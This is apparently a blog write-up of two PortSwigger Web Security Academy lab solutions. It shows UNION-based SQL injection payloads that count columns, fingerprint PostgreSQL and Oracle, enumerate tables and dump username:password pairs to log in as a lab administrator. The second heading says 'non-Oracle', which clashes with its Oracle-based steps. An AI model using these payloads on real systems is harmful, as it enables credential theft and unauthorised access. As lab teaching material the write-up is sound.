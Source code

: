 # Portswigger Web Security SQL Injection

<h3> SQL injection UNION attack, retrieving multiple values in a single column </h3>

First after going over to the web app it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f58a051f-87f6-4ac9-8270-14b12cfc5b96)

After playing around I found the vulnerable part of the web app
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ca08f318-b5d0-4d18-a021-82961ca3d042)

But when I add SQl comment it doesn't show internal server error 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1d0fef12-78fc-4434-af7d-53d787769a06)

So first let us determine the number columns present using *ORDER BY* query
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b4e3f8c8-f835-4dd6-aefc-0a69c0a0ba42)

```
Query: ' ORDER BY 2 --
```

I got it as two. Now we need to know the part of the column that can accept data string
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/67cf009d-c9db-4d50-a021-fe4143627b73)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/47fd88ef-3ad2-4992-9001-a45f24f15814)

```
Query: ' UNION SELECT NULL,'test' --
```

Cool it's column two 

Lets see what type of DB we're working with
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f7091f5d-1912-471e-838b-4d327a74e3e6)

```
Query: ' UNION SELECT NULL, version() --
PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit
```

Interesting... Lets enumerate the table name 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/448cee93-8345-40ac-ac90-fa5448e0bbcf)

```
Query: ' UNION SELECT NULL,table_name FROM information_schema.tables--
```

The users table looks interesting ... Lets get the column names
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35919c7a-2da5-4b1f-9f1d-edc02f794782)

```
Query: ' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name = 'users'--
```

The aim of this challenge is to login as admin so we need to dump the username and password column from the users table

We can dump it column by column but that's no fun

Since we know the db is postgresql a way to concatenate string is using * 'foo' || 'bar'*

So to dump the table I'll use this

```
Query: ' UNION SELECT NULL,username || ':' || password FROM users --
```

Doing that dumps the table
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cec53775-07d7-465a-97a5-2342028dda1d)

Now we have the administrator cred *administrator:ghjwdq0szwng3n27u2l4*

After loggin it we solved it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/52dfa1d1-687d-4b14-80d0-442c85e0c8ae)

<h3> SQL injection attack, listing the database contents on non-Oracle databases </h3>

Going over to the web app shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/eb280449-9de5-4347-9713-104b3fb2bbc0)

Since we know that the vulnerable section of the web app is the /filter page where it GETS products

Trying basic SQLi gives internal server error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/03de9a73-d38e-40ad-a9f4-4928064351a3)

I'll intercept the request and put it in burp repeater
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32a04528-3ae1-4bc6-85f4-400857c1b78a)

First lets see how many columns are there using *ORDER BY* Query
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ef7b97a1-32e2-47ef-a0bd-d537af0c4f4c)

```
Query: ' ORDER BY 2 --
```

Next thing is to know which column has data type of a string
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f17e42a3-2649-429e-8e94-e1eb4f699045)

```
Query: ' UNION SELECT NULL,'test' --
```

But I got internal server error hmmmm

Since we already know we're working with an Oracle DB one thing about it is that when *SELECT* is used it must preceed with a *FROM* query

So I added that 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/652a11a8-05a4-43cc-9f36-d069b2fe8991)

```
Query: ' UNION SELECT NULL,'test' FROM dual --
```

Cool now it works. Lets see the tables present
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d743e751-7475-4961-80e1-40219303765d)

```
Query: ' UNION SELECT NULL,table_name FROM all_tables 
```

We see this table `USERS_AHQJFZ`

Lets get the column name there
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b1d7c661-5a0c-4f5c-9c8e-bf63dd9cb1ab)

```
Query: ' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name = 'USERS_AHQJFZ' --
```

We get this `PASSWORD_DIEBLS` and `USERNAME_FPTOVB`

Now we can dump it 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e709368-4289-4042-8ca3-48e4c339aa2c)

```
Query: ' UNION SELECT NULL,USERNAME_FPTOVB || ':' || PASSWORD_DIEBLS FROM USERS_AHQJFZ --
```

Looking at the result gives the administrator password

Loggin in with it works and we've solved this challenge
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/70620676-6865-4399-8eb3-3a543ffcfa1c)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f3fcaed2-38c0-4d98-b0ac-1b770fb2f3e6)
